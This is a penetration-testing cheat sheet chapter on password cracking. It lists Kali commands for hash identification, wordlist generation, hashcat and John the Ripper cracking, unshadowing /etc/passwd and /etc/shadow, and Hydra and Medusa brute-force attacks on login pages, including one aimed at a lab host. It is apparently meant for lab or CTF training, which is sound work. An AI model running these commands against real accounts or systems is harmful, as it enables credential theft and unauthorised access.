 # Chapter 7 - Cracking

> The time to crack a password is related to bit strength, which is a measure of the password's entropy and the details of how the password is stored. Most methods of password cracking require the computer to produce many candidate passwords, each of which is checked. One example is brute-force cracking, in which a computer tries every possible key or password until it succeeds. More common methods of password cracking, such as dictionary attacks, pattern checking, word list substitution, etc. attempt to reduce the number of trials required and will usually be attempted before brute force. Higher password bit strength exponentially increases the number of candidate passwords that must be checked, on average, to recover the password and reduces the likelihood that the password will be found in any cracking dictionary.
>
> _**— Wikipedia**_

#### Hash Identification

---

```
Kali> hash-identifier HASH64256BLOOBLAHHAHAHEHE
```

#### Decoding

---

```
Kali> echo"BASE64"| base64 -d
Kali> echo"d3 4d b3 3f"| xxd -r -ps
```

#### Wordlist Generation

---

###### Crunch

```
Kali>
 crunch 6 6 0123456789ABCDEF -o crunch.txt
```

###### CEWL

```
Kali> cewl www.wikipedia.com -m 6 -w passwords.txt
```

###### John

```
Kali> nano /etc/john/john.conf
Kali> john --wordlist=passwords.txt --rules --stdout > mutated
```

#### Hashcat

---

```
Kali> hashcat -m 400 -a 0 hash /usr/share/wordlists/rockyou.txt
Kali> oclHashcat64.bin -m 110 hash.txt ../wordlist.txt --force
```

#### Converting for John attacks

---

```
Kali> ssh2john file > newfile
Kali> unshadow /etc/passwd /etc/shadow > unshadowed.txt
```

#### John

---

```
Kali> john crackfile --wordlist=/usr/share/wordlists/rockyou.txt
```

#### BruteForcing

---

###### Hydra

```
Kali> hydra -l admin -P /usr/share/wordlists/rockyou.txt nineveh.htb http-post-form "/department/login.php:username=^USER^&password=^PASS^&Login=Login:Invalid Password" -V -I
```

###### Medusa

```
Kali> medusa -h $TARGET -u admin -P passwords.txt -M http -m DIR:/admin -T 10
```



